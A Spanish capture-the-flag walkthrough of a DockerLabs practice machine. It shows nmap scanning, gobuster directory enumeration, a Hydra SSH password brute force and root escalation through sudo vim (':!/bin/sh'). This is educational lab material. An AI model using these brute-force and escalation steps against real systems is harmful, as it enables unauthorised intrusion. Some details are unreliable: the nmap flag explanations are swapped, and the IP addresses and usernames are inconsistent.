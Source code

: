 ## WRITEUP DE LA MÁQUINA BORAZUWARAHCTF DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.18.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.18.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-18 17:13 EDT
Nmap scan report for 172.18.0.2
Host is up (0.00017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

Vemos que el puerto 22 y 80 de los servicios ssh y http respectivamente estan abiertos. Empezaremos por ver que sitio web encontramos con la IP víctima (172.18.0.2):

![debian](https://github.com/user-attachments/assets/82918d95-2d7b-4b3b-9ae1-0b45d656d6f8)

Vamos a optar por hacer un ataque de fuerza bruta mediante la herramienta gobuster. Lo que vamos a intentar es encontrar directorios o ficheros ocultos que nos den pistas.

```
└─$ gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.18.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

El resultado:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.18.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]

```

Vemos algo sospechoso, "/secret.php" nos da a entender que ahí hay algo. En la URL junto al 172.18.0.2 escribimos ese fichero php y vemos esta página:

![mario](https://github.com/user-attachments/assets/47f32699-43fd-4125-9072-c091674cbf37)

Al ser una máquina tan sencilla se entiende que ese tal Mario será el nombre de usuario al que a continuación intentaremos conectarnos mediante ssh, pero antes de eso necesitamos saber su contraseña. Lo haremos mediante fuerza bruta esta vez con la herramienta hydra:

```
└─$ hydra -l mario -P /home/kali/Desktop/rockyou.txt ssh://172.18.0.2 -t 5
```

"-l mario" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a russoski.
<br><br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br><br>
"ssh://172.18.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br><br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña. (Nos va a tomar un par de minutos)

Obtenemos lo siguiente:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-18 17:16:37
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.18.0.2:22/

[22][ssh] host: 172.18.0.2   login: mario   password: chocolate

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-18 17:17:31
```

Sabemos que la contraseña es "chocolate", ahora si, nos conectamos mediante ssh y ponemos dicha contraseña:

```
ssh mario@178.18.0.2
```

```
mario@0887a732b61d:~$ whoami
mario@0887a732b61d:~$ mario
```

Toca escalar privilegios. Escribimos el comando "sudo -l" el cual permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado). 

```
mario@0887a732b61d:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 0887a732b61d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 0887a732b61d:
    (ALL) /usr/bin/vim
```

Vamos a explotar el binario vim mediante el sitio web GTFObins (https://gtfobins.github.io/#) para escalar privilegios. Con buscar "vim" en el buscador de la página e ir al partado de sudo, encontramos nuestra forma de ser root, en este caso tendremos que ejecutar " sudo vim -c ':!/bin/sh' "

```
mario@0887a732b61d:~$ sudo vim -c ':!/bin/sh'
# whoami
root
```
Ya somos root, espero que os haya gustado este writeup, muchas gracias!

